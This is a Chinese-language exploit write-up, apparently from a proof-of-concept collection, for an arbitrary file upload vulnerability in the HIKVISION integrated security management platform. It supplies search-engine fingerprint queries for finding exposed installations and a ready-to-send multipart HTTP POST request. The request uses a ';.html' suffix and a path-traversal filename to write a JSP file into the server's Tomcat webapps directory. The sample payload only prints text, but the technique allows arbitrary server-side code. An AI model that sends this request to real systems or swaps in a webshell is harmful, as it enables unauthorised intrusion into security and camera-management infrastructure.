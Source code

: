 # HIKVISION 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

HiKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](./images/202208241341481.png)

需要开放运行管理中心 (8001端口)

![image-20230828163622054](images/image-20230828163622054.png)

```
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163639195](images/image-20230828163639195.png)
